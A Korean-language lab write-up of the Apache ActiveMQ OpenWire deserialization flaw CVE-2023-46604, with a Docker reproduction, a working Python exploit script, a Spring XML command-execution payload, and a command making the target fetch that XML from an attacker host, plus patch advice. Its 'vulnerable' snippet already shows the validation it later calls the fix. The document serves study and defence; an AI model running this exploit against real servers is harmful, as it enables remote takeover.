





# Apache ActiveMQ 원격 코드 실행 (RCE) 취약점 분석 (CVE-2023-46604)

## 취약점 요약

ActiveMQ는 서버와 클라이언트가 데이터를 주고받을 때 OpenWire 라는 전용 프로토콜을 사용한다.
기본 포트 61616

만약 통신 중 에러가 발생하면 ExceptionResponse 라는 패킷을 보내는데, 수신 측에서는 이를 받아 원래의 에러(Throwable) 객체로 복원(역직렬화)하고 확인한다.

BaseDataStreamMarshaller 클래스에서 예외 객체를 역직렬화 할 때, 클래스 타입에 대한 적절한 검증이 누락되어있다.

공격자는 조작된 패킷을 통해 임의의 클래스를 인스턴스화 하고 악성 XML을 로드하게 만들어 최종적으로 서버에 원격으로 코드를 실행할 수 있다.

```c
// [취약한 버전의 로직]
private Throwable createThrowable(String className, String message) {
    try {
        // 1. 패킷에서 전달받은 클래스 이름(className)을 그대로 로드함
        Class clazz = Class.forName (className, false , BaseDataStreamMarshaller.class.getClassLoader ( ) ) ;
        OpenWireUtil.validateIsThrowable (clazz);
        // 2. 해당 클래스에서 문자열(String) 하나를 인자로 받는 생성자를 찾음
        Constructor constructor = clazz.getConstructor(new Class[] {String.class});
        
        // 3. 별다른 검증 없이 인스턴스 생성
        return (Throwable)constructor.newInstance(new Object[] {message});
        
    } catch (Exception e) { ... }
}
```

## 취약조건

**영향을 받는 버전**

Apache ActiveMQ 5.18.0 ~ 5.18.2

Apache ActiveMQ 5.17.0 ~ 5.17.5

Apache ActiveMQ 5.16.0 ~ 5.16.7

Apache ActiveMQ 5.15.16 및 그 이하 버전

**전제 조건:** 공격자가 타겟 서버의 OpenWire 포트(기본값: 61616)에 네트워크 접근이 가능해야 한다.

## 환경 구성

다음 명령어로 ActiveMQ 5.17.3(Target)과 Python3(Attacker) 컨테이너로 구성된 격리된 네트워크 환경을 구축한다.

```c
docker compose up -d
```

## 재현절차



서비스가 성공적으로 시작되었는지 http://자신의-ip:8161 로 접속을 시도한다.
초기 아이디와 패스워드는 admin/admin 이다.

### 1. 악성 XML 서빙 용 웹서버 구동 (터미널 2)



타겟 서버가 접근하여 파일을 다운로드할 수 있도록 공격자 컨테이너 내부에서 임시 웹 서버를 실행한다.
해당 창은 로그 확인용으로 사용한다.

```c
sudo docker-compose exec attacker python3 -m http.server 8000
```

### 2. Exploit 스크립트 전송 (터미널 1)



타겟 서버로 조작된 패킷을 전송하여 타겟이 공격자 웹 서버의 악성 XML을 참조할 수 있도록 한다.

```c
sudo docker-compose exec attacker python3 poc.py activemq 61616 http://attacker:8000/poc.xml
```

### 3. 공격 성공 여부 확인



타겟 컨테이너 내부 /tmp 디렉토리에 악성 명령어가 동작하여 파일이 생성되었는지 확인한다.

```c
sudo docker-compose exec activemq ls -l /tmp
```

## PoC코드

### poc.py

```c
import io
import socket
import sys

def main(ip, port, xml):
    classname = "org.springframework.context.support.ClassPathXmlApplicationContext"
    socket_obj = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    socket_obj.connect((ip, port))

    with socket_obj:
        out = socket_obj.makefile('wb')
        out.write(int(32).to_bytes(4, 'big'))
        out.write(bytes([31]))
        out.write(int(1).to_bytes(4, 'big'))
        out.write(bool(True).to_bytes(1, 'big'))
        out.write(int(1).to_bytes(4, 'big'))
        out.write(bool(True).to_bytes(1, 'big'))
        out.write(bool(True).to_bytes(1, 'big'))
        out.write(len(classname).to_bytes(2, 'big'))
        out.write(classname.encode('utf-8'))
        out.write(bool(True).to_bytes(1, 'big'))
        out.write(len(xml).to_bytes(2, 'big'))
        out.write(xml.encode('utf-8'))
        out.flush()
        out.close()

if __name__ == "__main__":
    if len(sys.argv) != 4:
        print("Please specify the target and port and poc.xml: python3 poc.py 127.0.0.1 61616 "
              "http://192.168.0.101:8888/poc.xml")
        exit(-1)
    main(sys.argv[1], int(sys.argv[2]), sys.argv[3])
```
클래스 ClassPathXmlApplicationContext는 스프링 프레임워크의 클래스 중 하나로 XML을 로드하는 기능을 수행한다.

### poc.xml

```c
<?xml version="1.0" encoding="utf-8"?>
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
  <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
        <value>touch</value>
        <value>/tmp/activeMQ-RCE-success</value>
      </list>
    </constructor-arg>
  </bean>
</beans>
```

## 실행결과



타겟 서버가 악성 XML을 다운로드하고 명령어를 실행하여 컨테이너 내부에 파일이 생성된 것을 확인할 수 있다.

## 대응방안

Apache ActiveMQ를 취약점이 패치된 안전한 버전(5.15.17, 5.16.8, 5.17.6, 5.18.3 이상)으로 즉시 업데이트한다.
패치된 버전은 예외 클래스 생성 시 **Throwable** 타입을 상속 받았는지 엄격하게 검증하는 로직이 추가되었다.

## 참고
https://github.com/vulhub/vulhub/tree/master/activemq/CVE-2023-46604
https://attackerkb.com/topics/IHsgZDE3tS/cve-2023-46604/rapid7-analysis
